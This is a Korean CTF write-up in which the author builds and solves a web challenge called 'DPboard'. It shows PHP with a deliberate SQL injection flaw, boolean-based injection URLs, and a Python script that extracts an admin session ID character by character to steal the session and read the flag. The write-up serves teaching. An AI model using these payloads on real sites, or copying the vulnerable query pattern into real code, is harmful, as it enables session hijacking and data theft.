 ```yaml
---
layout: post
title: DPboard making and writeup
excerpt_separator: <!--more-->
tags:
  - MitNy
  - SQL injection
  - Write-up
  - WebHacking
---
```


안녕하세요 MadHat 팀에서 웹 해킹을 공부하고 있는 `MitNy` 입니다. 지금까지 CTF나 Wargame에서 문제를 풀어오면서
문제를 푸는 것도 중요하지만 문제를 만들어보는 것도 중요하다는 생각을 하고 있습니다.
처음에는 스테가노그래피가 재밌어서 이것저것 숨겨보기도 했지만 요즘은 웹 문제를 만드는 게 더 재밌어졌습니다.
그래서 이번에는 제가 SQL injection 문제를 만드는 것과 풀이를 동시에 하도록 하겠습니다.

<!--more-->


### 1. DPboard 소개

문제 이름은 `DPboard` 입니다. DPboard는 Display board를 제 마음대로 줄인 것이며 기본적인 컨셉은
전광판에 사용자가 원하는 문구를 띄울 수 있다는 것입니다.
어디에 플래그가 뜰지 예상이 가시나요?

DPboard 문제의 메인 페이지는 다음과 같습니다.

![]({{ site.baseurl }}/images/mitny/DPboard/dp1.PNG)

메시지를 추가하고, 전광판에 표시를 하는 기능이 있고 지금까지 등록된 메시지들이 테이블 형식으로 보입니다.

메시지를 추가하게 되면 다음과 같이 테이블에 메시지가 추가됩니다.
![]({{ site.baseurl }}/images/mitny/DPboard/dp2.PNG)

`hey` 라는 메시지를 전광판에 띄워 볼게요.
![]({{ site.baseurl }}/images/mitny/DPboard/dp3.PNG)

표시할 메시지를 입력하면 URL 부분이 `ip/DPboard/dpboard.php?title=hey&id=hs6j3a53oiphdfrlni8j3fti83&submit2=send` 로 바뀝니다.
중간에 id는 익숙하네요. 유저의 PHPSESSID와 동일합니다.
![]({{ site.baseurl }}/images/mitny/DPboard/dp4.PNG)


이 부분의 코드를 보면

```html
<div id="showMessage">
	<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="get">
		표시할 메시지: <input type="text" name="title">
		<input type="hidden" name="id" value="<?php echo $_COOKIE["PHPSESSID"]; ?>">
		<input type="submit" name="submit2" value="send">
		</form>
</div>
```

hidden 값으로 유저의 `PHPSESSID`가 들어갑니다. 이를 이용한 PHP 코드는 다음과 같습니다.

```php
<?php
	$id = $_GET["id"];
	$title = $_GET["title"];

	$query = "SELECT id,content FROM dpdb WHERE id='$id' AND title='$title'";
	$result = mysqli_query($conn,$query);

	while($row = mysqli_fetch_array($result)) {
		if($_COOKIE["PHPSESSID"] != "admin's PHPSESSID(is not real)") {
			if($row['content'] == "FLAG(is not real)") {
				echo "<marquee>Do Not Hack!</marquee>";
			}
			else {
				echo "<marquee>".$row['content']."</marquee>";
			}
		}
		else {
			echo "<marquee>".$row['content']."</marquee>";
		}
	}
?>
```

title과 hidden값인 id를 가져온 후 id와 title에 해당하는 값을 DB에서 가져오는 쿼리문이 있습니다.
미리 DB에 저장해 둔 admin의 PHPSESSID와 비교하여 일치할 때만 플래그를 보여주도록 했습니다.
그렇지 않으면 substr로 한 글자만 맞춰도 플래그가 뜨기 때문에 너무 쉽잖아요!

substr을 이용해 `ip/DPboard/dpboard.php?title=flag&id=1' or title='flag' and substr(id,1,1)='m` 또는
`ip/DPboard/dpboard.php?title=flag&id=1' or title='flag' and length(id)='26` 을 입력하게 되면
다음과 같이 `Do Not Hack!` 이라는 문구가 뜹니다.
![]({{ site.baseurl }}/images/mitny/DPboard/dp5.PNG)

PHPSESSID의 길이도 길이고 한 글자씩 맞춰보기엔 오래 걸리니 파이썬으로 코드를 짜서 플래그를 알아내보도록 하겠습니다.

```py
from requests import get
import string
from time import sleep


url = "ip/DPboard/dpboard.php"
adminSessid = ""

alpha = string.ascii_letters+string.digits
result = ""

print("\n\n.*.*.*.*.*.*.*.Finding admin id.*.*.*.*.*.*.*.\n")
length = 27
for i in range(1, length):
    for a in alpha:
        parameter = "?title=flag&id=1' or title='flag' and ASCII(substr(id,"+ str(i)+",1))="+str(ord(a))+"%23"
        new_url = url + parameter
        cookies = dict(PHPSESSID=adminSessid)
        r = get(new_url, cookies=cookies)

        if r.text.find("<marquee>Do Not Hack!</marquee>") > 0:
            print(str(i) + " -> " + a)
            sleep(0.5)
            result += a
            break

    if i == 1 and result == "":
        print("id not found")
        exit(0)

    if i == length-1:
        print("\n"+"id is " + result)
        adminSessid = result
        print("\n")
        cookies = dict(PHPSESSID=result)
        req = get(new_url,cookies=cookies)
        print(req.text)
```

PHPSESSID이기 때문에 딱히 특수문자까지 찾도록 하진 않았습니다.
`?title=flag&id=1' or title='flag' and ASCII(substr(id,"+ str(i)+",1))="+str(ord(a))+"%23` 와 같이
substr을 통해 한글자씩 맞추게 됩니다.
admin의 flag에 접근하려고 할 때 user의 PHPSESSID가 DB에 저장되어 있는 admin의 PHPSESSID와 같지 않으면
`Do Not Hack!` 메시지를 뱉기 때문에 이를 이용했습니다.
"Do Not Hack!" 이 뜰 때는 admin의 PHPSESSID 중 한 글자가 맞는다는 의미이므로 이 문구가 뜰 때
result에 해당 값을 붙여 줍니다.
그 후에 PHPSESSID를 result 값으로 주고 get을 이용해 new_url과 cookies 값을 넘겨줍니다.
req.text로 html 코드를 가져오면 플래그가 보입니다!


### 결과

![]({{ site.baseurl }}/images/mitny/DPboard/dp6.PNG)

![]({{ site.baseurl }}/images/mitny/DPboard/dp7.PNG)
